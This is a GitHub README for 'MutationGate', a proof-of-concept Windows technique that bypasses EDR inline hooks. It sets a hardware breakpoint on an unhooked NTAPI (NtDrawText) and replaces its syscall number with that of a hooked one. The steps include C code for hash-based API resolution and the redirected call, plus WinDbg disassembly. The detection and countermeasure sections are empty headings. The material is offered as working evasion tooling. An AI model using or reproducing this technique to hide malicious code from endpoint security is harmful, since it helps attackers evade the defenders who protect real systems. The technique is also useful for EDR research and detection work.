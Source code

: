 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText+0` to redirect the execution to `NtDrawText+8`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
	pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
PVOID GetFuncByHash(IN HMODULE hModule, uint32_t Hash)
{
	PBYTE pBase = (PBYTE)hModule;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) 
	{
		CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
		if (Hash == ROR13Hash(pFunctionName)) 
		{
			return pFunctionAddress;
		}
	}
	return NULL;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
		fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
		NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach



## Detection and Countermeasure of Detection

## Credits and References
